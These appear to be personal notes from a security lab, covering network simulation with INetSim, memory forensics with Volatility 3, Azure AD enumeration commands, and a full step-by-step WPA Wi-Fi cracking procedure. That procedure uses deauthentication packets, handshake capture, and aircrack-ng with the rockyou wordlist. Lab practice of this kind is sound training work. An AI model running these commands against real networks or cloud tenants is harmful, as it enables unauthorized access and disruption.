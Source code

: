 




——

Network analysis: 
INetSim: Internet Services Simulation Suite!
Simulate network traffics


—————

Analysing memory dump:
volitality3:  vol3 -f <memory image> <plugin name>
https://volatilityfoundation.org/
https://github.com/volatilityfoundation/volatility3

Available plugins to use: https://volatility3.readthedocs.io/en/stable/volatility3.plugins.html


——————

—————

azure command
 syntax: az GROUP SUBGROUP ACTION OPTIONAL_PARAMETERS
az ad user list --filter "startsWith('wvusr-', displayName)"
az ad user list --filter "startsWith('wvusr-', displayName)"
az ad group list
az ad group member list --group "Secret Recovery Group"
az role assignment list --assignee REPLACE_WITH_GROUP_ID --all


———


Wifi cracking


1. Check wireless interface: `iw dev`
2. scan nearby wifi devices: sudo iw dev wlan2 scan
3. Set to monitor/promiscious mode: 
    1. sudo ip link set dev wlan2 down
    2. sudo iw dev wlan2 set type monitor
    3. sudo ip link set dev wlan2 up
4. Check the status: sudo iw dev wlan2 info
5. List nearby wife details: sudo airodump-ng wlan2
6. capture the 4-way handshake: sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
7. send deauth packet: sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
8. Crack the 4-way handshake: sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
9. Save the wireless config : wpa_passphrase MalwareM_AP ‘wifi-password’ > config
10. use the config to connect to wifi: sudo wpa_supplicant -B -c config -i wlan2
11. 

————


